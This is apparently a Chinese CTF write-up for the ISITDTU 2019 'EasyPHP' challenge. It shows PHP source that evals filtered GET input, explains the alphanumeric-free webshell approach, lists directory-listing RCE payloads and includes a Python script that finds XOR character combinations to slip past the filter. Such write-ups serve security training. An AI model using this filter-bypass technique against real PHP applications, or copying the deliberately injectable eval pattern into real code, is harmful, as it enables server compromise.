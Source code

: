 # [ISITDTU 2019]EasyPHP

## 知识点

`无字母数字webshell`

## 解题

题目给出了源码

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

> count_chars($string, 0x3)返回一个去重的字符串(所有使用过的不同的字符)

要求所用字符小于`13`种，还有很多检测，说明这是`无字母数字webshell`

测试一下`phpinfo()`

![](./img/[ISITDTU 2019]EasyPHP-1.png)

![](./img/[ISITDTU 2019]EasyPHP-2.png)

命令执行的函数都被禁用了,同时也限制了`open_basedir`在`/var/www/html`，使用`无参数rce`的`payload`

```php
print_r(scandir(.))
// 或者
print_r(glob('*.*'))
```

懒得改代码了  [当前代码](Scripts/xor_regex.py)

```python
result2 = [0x8b, 0x9b, 0xa0, 0x9c, 0x8f, 0x91, 0x9e, 0xd1, 0x96, 0x8d, 0x8c]  # Original chars,11 total
result = [0x9b, 0xa0, 0x9c, 0x8f, 0x9e, 0xd1, 0x96, 0x8c]  # to be deleted
temp = []
for d in result2:
    for a in result:
        for b in result:
            for c in result:
                if (a ^ b ^ c == d):
                    if a == b == c == d:
                        continue
                    else:
                        print("a=0x%x,b=0x%x,c=0x%x,d=0x%x" % (a, b, c, d))
                        if d not in temp:
                            temp.append(d)
print(len(temp), temp)
```

除了必要的`(` `)` `^`;以外，我们最多剩余`9`个字符的空间，逐步删除`result`里的值，当结果仍能保持`11`个，就意味着我们可以继续删除了。



















[参考文章1](https://blog.csdn.net/mochu7777777/article/details/105786114)

[参考文章2](https://syunaht.com/p/2441275844.html)